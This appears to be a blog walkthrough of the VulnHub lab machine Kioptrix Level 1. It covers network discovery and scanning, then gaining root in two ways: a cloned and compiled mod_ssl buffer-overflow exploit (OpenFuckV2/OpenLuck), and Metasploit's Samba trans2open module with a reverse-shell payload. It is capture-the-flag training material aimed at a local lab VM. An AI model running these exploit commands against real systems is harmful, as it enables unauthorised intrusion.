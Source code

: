 ```yaml
---
layout: post
title: "Kioptrix Level 1"
date: 2022-02-04
categories: [VulnHub, Easy-Vulnhub]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix Level 1/kioptrix.png 

---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using netdiscover tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![netdiscover](../../assets/img/posts/Kioptrix Level 1/netdiscover.png)

Okay, so the IP address of the box is 10.0.2.21.

Now, let's start port scanning with **nmap**,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.21
```

![nmap1](../../assets/img/posts/Kioptrix Level 1/nmap1.png)
![nmap2](../../assets/img/posts/Kioptrix Level 1/nmap2.png)

there are multiple open ports present. We'll enumerate them individually.

Since we know that this box is running a webserver which host a website, so we'll first see how many technologies are running on website with whatweb tool,

```bash
whatweb http://10.0.2.21
```

![whatweb](../../assets/img/posts/Kioptrix Level 1/whatweb.png)

this is running mod_ssl (exploit) impressive :0. Let's enumerate it more.

let's visit http://10.0.2.21,

![web1](../../assets/img/posts/Kioptrix Level 1/web1.png)

that's a simple apache installation text page.

let's visit https://10.0.2.21 as well,

![web2](../../assets/img/posts/Kioptrix Level 1/web2.png)

we can see that this is a same page which we encountered before on port 80.

Let's run **nikto** tool to scan website for vulnerabilities,

```bash
nikto --host http://10.0.2.21
```

![nikto1](../../assets/img/posts/Kioptrix Level 1/nikto1.png)

there are many things to look for but the thing which takes my attention is this website is vulnerable to **mod_ssl 2.8.4 exploit**.

![nikto2](../../assets/img/posts/Kioptrix Level 1/nikto2.png)

We can take a look at this exploit code on https://www.exploit-db.com/exploits/764 and this exploit's name is OpenFuckV2. This mod_ssl vulnerability allows buffer overflow to gain remote shell.

Let's look at the how this exploit work and download this exploit from github https://github.com/heltonWernik/OpenLuck

![web3](../../assets/img/posts/Kioptrix Level 1/web3.png)

follow the steps in usage image from github to fireup the exploit,

```bash
git clone https://github.com/heltonWernik/OpenLuck.git
cd Openluck
sudo apt-get install libssl-dev
compiling exploit,
gcc -o OpenFuck OpenFuck.c -lcrypto
```

let's see how this exploit works,

```bash
./OpenFuck
```

![openluck](../../assets/img/posts/Kioptrix Level 1/openluck.png)

seems like we've to first we've to provide supported offset of the version running on the box.

we'll use RedHat linux 7.2 version offset 0x6b,

```bash
./OpenFuck 0x6b 10.0.2.21 443 -c 41
```

![openluck2](../../assets/img/posts/Kioptrix Level 1/openluck2.png)

we got ROOT!!!

Note: This exploit might take 2-3 tries to get you a shell, so try hard ;).

## Metasploit Method

Let's fireup the metasploit framework using `msfconsole` and we'll look how to exploit this box.

we'll search for samba exploit modules in msfconsole,

```bash
search linux samba
```

![msf1](../../assets/img/posts/Kioptrix Level 1/msf1.png)

okay, so we got trans2open exploit and we're going to use that to gain a system access.

```bash
use exploit/linux/samba/trans2open
```

![msf2](../../assets/img/posts/Kioptrix Level 1/msf2.png)

we can see that our payload is automatically assigned as generic/shell_reverse_tcp, if not, then set it using `set payload generic/shell_reverse_tcp`.

now type `options` to show list of options we have in this module,

![msf3](../../assets/img/posts/Kioptrix Level 1/msf3.png)

here we'll set RHOSTS to our kioptrix box's IP. To set this ip, type `set rhosts 10.0.2.21` and then fireup the module using `exploit`,

![msf4](../../assets/img/posts/Kioptrix Level 1/msf4.png)
![msf5](../../assets/img/posts/Kioptrix Level 1/msf5.png)

we got system shell!!

**Note: After firing up this exploit, it might take some time get root shell. Have patience and if it doesn't work then try again.**

We saw both methods, i.e. Manual method by using OpenFuckV2 exploit and Automated Method using Metasploit Framework to exploit this box.
